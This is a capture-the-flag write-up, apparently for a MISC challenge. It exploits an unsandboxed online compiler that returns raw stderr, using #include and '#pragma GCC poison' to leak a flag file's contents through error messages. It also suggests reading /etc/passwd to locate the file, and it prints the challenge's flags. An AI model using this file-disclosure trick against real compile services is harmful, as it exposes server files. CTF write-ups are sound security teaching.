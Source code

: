 ### Will it stop?

* Player is expected to either include `../flag[.txt]` or
look into `/etc/passwd` and then include `/home/aturing/flag[.txt]`.

## Category: MISC

## Idea
It is a misconfiguration when on PPC websites compiler isn't running
in a sandbox and stderr of compilation is given to the user verbatim.

## Solution

But first a bait flag!
Compiling:
```
#include "/home/aturing/flag"
```

Gives:
```
In file included from solve.c:2:
flag:1:5: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘:’ token
    1 | jctf:is_this_the_real_flag__is_this_just_fantasy
      |
```

True solution:
Compiling:
```
#pragma GCC poison jctf
#include "/home/aturing/flag"
```

Gives:
```
In file included from solve.c:2:
flag:1:1: error: attempt to use poisoned "jctf"
    1 | jctf:is_this_the_real_flag__is_this_just_fantasy
      | ^
flag:1:5: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘:’ token
    1 | jctf:is_this_the_real_flag__is_this_just_fantasy
      |     ^
flag:2:1: error: attempt to use poisoned "jctf"
    2 | jctf{how_do_you_find_out__you_have_to_use_the_pragma_directive}
      | ^

```

